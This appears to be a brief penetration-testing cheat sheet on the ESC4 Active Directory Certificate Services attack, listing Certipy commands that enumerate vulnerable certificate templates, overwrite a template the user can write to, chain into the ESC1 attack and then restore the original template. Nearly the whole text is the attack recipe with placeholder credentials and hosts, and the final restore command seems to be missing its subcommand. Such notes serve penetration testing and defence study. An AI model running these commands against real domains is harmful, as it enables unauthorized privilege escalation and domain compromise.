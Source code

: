 # ESC4 - Access Control Vulnerabilities

## Enumeration

 - certipy find -u USER@DOMAIN -p PASSWORD -dc-ip DOMAIN_CONTROLLER

## Exploitation

 - certipy template -u USER@DOMAIN -p 'PASSWORD' -template VULN_TEMPLATE -save-old -debug (Write privileges over a certificate template)

### Use ESC1 on vulnerable template

### Then:

 - certipy -u USER@DOMAIN -p 'PASSWORD' -template VULN_TEMPLATE -configuration TEMPLATE.json (Restore template)
